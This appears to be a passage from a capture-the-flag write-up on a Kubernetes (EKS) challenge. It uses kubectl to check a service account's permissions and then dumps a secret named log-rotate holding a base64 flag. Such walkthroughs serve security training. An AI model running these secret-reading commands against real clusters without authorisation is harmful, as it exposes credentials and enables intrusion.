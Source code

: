 Under “View Permissions”, policy showed that the initial account should have the ability to “get” and “list” secrets:

```json
{
    "secrets": [
        "get",
        "list"
    ]
}
```

For some context before starting, the user identity can be verified like so:

```bash
root@wiz-eks-challenge:~# kubectl whoami
system:serviceaccount:challenge1:service-account-challenge1
```

Since the account also has the ability to perform SelfSubjectAccessReviews, the ability to “get” and “list” resources can also be viewed with `kubectl auth can-i --list`:

```bash
root@wiz-eks-challenge:~# kubectl auth can-i --list
warning: the list may be incomplete: webhook authorizer does not support user rule resolution
Resources                      Non-Resource URLs   Resource Names   Verbs
selfsubjectaccessreviews[...]  []                  []               [create]
selfsubjectrulesreviews[...]   []                  []               [create]
secrets                        []                  []               [get list]
[...]
```

`kubectl get secrets` can be used to review what secrets are present:

```bash
root@wiz-eks-challenge:~# kubectl get secrets
NAME         TYPE     DATA   AGE
log-rotate   Opaque   1      17d
```

The full details of this `log-rotate` secret shows a “flag” entry under “data”. In this case, specifying the secret name and an output format with `-o` will ensure secret contents are dumped (instead of a general description of the secret!):

```bash
root@wiz-eks-challenge:~# kubectl get secret log-rotate -o json
{
    "apiVersion": "v1",
    "data": {
        "flag": "d2l6X[...]XNzfQ=="
    },
    "kind": "Secret",
    "metadata": {
        "creationTimestamp": "2023-11-01T13:02:08Z",
        "name": "log-rotate",
        "namespace": "challenge1",
        "resourceVersion": "890951",
        "uid": "03f6372c-b728-4c5b-ad28-70d5af8d387c"
    },
    "type": "Opaque"
}
```
